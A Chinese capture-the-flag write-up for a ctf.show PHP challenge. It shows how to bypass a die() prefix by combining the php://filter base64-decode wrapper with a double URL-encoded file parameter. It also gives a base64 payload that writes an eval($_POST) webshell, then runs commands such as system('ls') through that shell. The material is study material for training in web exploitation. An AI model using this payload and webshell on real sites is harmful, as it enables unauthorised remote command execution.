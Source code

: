 这道题帮我加深了我的绕过，我甚至之前都没彻底理解了getshell，现在我才理解到这个真正的含义。

可以看到有file\_put\_contents,我们就应该猜到是用php://filter协议，又因为后面有死亡绕过，我们再来一个base64解码。

所以我们往file里面传入的不是php代码了，而是一个协议，我们在当前目录下写入一个getshell。

首先在hackbar里面写入post和get两个参数，content需要base64加密绕过，并且因为php die是6个字符，所以需要往base64字符串前面添加两个字符。我们的content想实现的是\<?php @eval($\_POST\[x]);?>

因为这样我们可以写入一个shell，然后我们可以向x里面传递执行命令的参数。

```url
content=abPD9waHAgQGV2YWwoJF9QT1NUW3hdKTs/Pg==
```

而file因为我们看到一个url解码函数，并且为了绕过一些关键词，所以我们需要两次url加密。而且是全加密（用burpsuite上面的可以实现全加密），resource可以是等于任意名字的php文件。

```url
http://1bd6bcd0-f840-4cc2-9665-0601cbe23a6d.challenge.ctf.show/?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%32%65%25%37%30%25%36%38%25%37%30
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

然后我们就会看到一片空白，这说明我们的文件已经上传上去了，getshell。yes。

然后我们接下来直接访问该目录下的这个php文件，然后直接访问这个getshell，往getshell里面传参，去查看当前目录下的文件。

然后我们可以传参去查看f开头的文件。你也可以先传入system('ls');去查看当前目录下的文件。

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
